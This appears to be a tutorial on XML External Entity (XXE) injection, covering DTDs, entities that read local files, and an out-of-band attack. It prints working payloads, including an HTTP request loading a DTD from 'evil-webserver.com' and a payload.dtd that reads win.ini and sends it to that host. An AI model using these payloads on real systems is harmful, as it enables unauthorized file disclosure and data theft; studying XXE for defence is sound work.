# What is XXE?
XXE = XML External Entity

This is a type of attack that targets `XML` parsers. The attack works by loading an `External Entity` into valid `XML`. This attack can lead to `data disclosure`, `dos`,`srf` and even `port scanning` of local resources.

# XML and its ENTITYs
### What is a DTD
A DTD is a Document Type Definition.
A DTD defines the structure anf the legal elements and attributes of an XML document. 
### Why use a DTD
With a DTD, independent groups of peopl can agree on a standard DTD for interchanging data.
An application can use a DTD to verify that XML data is valid. 
### Internal DTD Declaration
If the DTD is declared inside the XML file, it must be wrapped inside the `<!DOCTYPE>` definition:
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Text here</body>
</note>
```
### An External DTD Declaration
If the DTD is declared in an external file, the `<!DOCTYPE>`definition must contain a reference to the DTD file:
```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
	<to>Tove</to>
	<from>Jani</from>
	<heading>Reminder</heading>
	<body>Text here</body>
</note>
```
Here is what the `dtd` file looks like
```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)> 
```
`ENTITY` tags within are simply shortcut to a special character that can be reference by calling the XML file. Notice that the last `ENTITY` tag is actually pulling the contens of a local file via the `SYSTEM` word.

```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```
The above `.dtd` file might be used as follows
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPES foo SYSTEM "http://validserver.com"/formatting.dtd">
<specifications>&file;</specifications>
```
`formatting.dtd` is called using `DOCTYPE` tags and the XML file can reference the `ENTITYs` and structure within.

`ENTITYs` can be used without formality of full `.dtd` file. By calling `DOCTYPE` and using square brackets`[]`, you can reference `ENTITY` tags for use in only that XML file. Below the `application.conf` file is referenced for use in `<configuration></configuration>` tags, without a full `.dtd` file to host it:
```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```
### Sumary
- DTD files can be external or internal to an XML file
- ENTITYs exist within DTD files
- ENTITYs can call local system files

# Injection
When data is passed in a `HTTP` request it opens the possibility of abuse from the user. In the case of a form wrappen in XML being sent to the server to be processed:
- Intercept vulnerable request with a web proxy
- Add injected ENTITY tag and `&xxe;` variable reference
	- ensure the `&xxe;` reference is with data that will be returned and displayed
- Release the intercept POST request
# Out of band
While some attacks might be as easy as that there are times where it is not as easy and here we turn to those external .dtd files mentioned. DOCTYPES references to external .dtd files allow us to conduct this attack entirely `out-of-band`

The following request contains a .dtd from a server the attacker controls - here is the request:
```


POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>

```
And here is what that `payload.dtd` contains
```
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```
- Client sends the POST request with the injected XML code
	- The server, via the XML parser, parses the XML from top to bottom, reaching the injected ENTITY
- The server requests `payload.dtd` from `https://evil-webserver.com`
- `https://evil-webserver.com` responds with `payload.dtd`
- The code within payload.dtd is parsed by the XML parser, which reads the contents of win.ini and sends it as a parameter in an HTTP GET request back to `https://evil-webserver.com`

The extracted data can be viewed by the attacker in their web server logs.
## Learn more 
[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

[Synack](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)

[OWASP](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)


